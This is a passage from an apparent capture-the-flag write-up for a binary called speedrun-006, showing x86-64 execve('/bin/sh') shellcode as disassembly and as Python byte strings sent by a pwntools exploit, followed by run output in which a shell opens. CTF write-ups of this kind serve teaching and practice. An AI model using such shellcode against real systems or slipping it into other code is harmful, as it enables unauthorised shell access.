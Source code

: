 ```
  400089:	48 b9 2f 62 69 6e 2f 	movabs rcx,0x68732f6e69622f
  400090:	73 68 00 
  400093:	48 89 0f             	mov    QWORD PTR [rdi],rcx
  400096:	48 31 f6             	xor    rsi,rsi
  400099:	48 31 d2             	xor    rdx,rdx
  40009c:	0f 05                	syscall 
'''
# mov    al,0x3b
shellcode = "\xb0\x3b"

# lea    rdi,[rip+0xfffffffffffffff8]
shellcode += "\x48\x8d\x3d\xf8\xff\xff\xff"

# movabs rcx,0x68732f6e69622f
shellcode += "\x48\xb9\x2f\x62\x69\x6e\x2f"
shellcode += "\x73\x68\x00"

# mov    QWORD PTR [rdi],rcx
shellcode += "\x48\x89\x0f"

#xor    rsi,rsi
shellcode += "\x48\x31\xf6"

#xor    rdx,rdx
shellcode += "\x48\x31\xd2"

#syscall
shellcode += "\x0f\x05"

# Send the secondary shellcoe
target.send(shellcode)

target.interactive()
```

When we run it:
```
$	python exploit.py 
[!] Could not find executable 'speedrun-006' in $PATH, using './speedrun-006' instead
[+] Starting local process './speedrun-006': pid 20456
[*] running in new terminal: /usr/bin/gdb -q  "./speedrun-006" 20456 -x "/tmp/pwn3JBtZ9.gdb"
[+] Waiting for debugger: Done

[*] Switching to interactive mode
How good are you around the corners?
Send me your ride
$ w
 03:06:29 up  7:36,  1 user,  load average: 2.08, 1.96, 1.73
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               19:29   ?xdm?  33:36   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
```

